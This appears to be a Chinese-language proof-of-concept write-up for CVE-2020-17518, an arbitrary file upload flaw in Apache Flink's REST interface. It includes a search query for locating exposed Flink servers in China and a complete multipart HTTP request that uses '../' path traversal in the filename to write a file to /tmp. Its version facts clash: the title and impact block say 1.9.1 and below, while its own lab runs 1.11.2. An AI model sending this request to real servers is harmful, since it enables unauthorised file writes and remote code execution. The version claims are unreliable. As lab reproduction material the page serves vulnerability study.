


# Apache Flink 小于 1.9.1 远程代码执行 CVE-2020-17518

## 漏洞描述

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理能力。

Apache Flink 1.5.1 引入了一个 REST 处理程序，可以通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统上的任意位置。

Apache Flink 的任意 Jar 包上传可以导致远程代码执行。

参考：

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## 漏洞影响

```
Apache Flink  <= 1.9.1(最新版本)
```

## 网络测绘

```
app="Apache-Flink" && country="CN"
```

## 环境搭建

Vulhub 执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问 `http://your-ip:8081` 查看主页。

## 漏洞复现

### 上传文件

使用以下请求将文件上传到 `/tmp/awesome_poc`：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/awesome_poc"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```



查看 docker，`/tmp/awesome_poc` 成功创建。


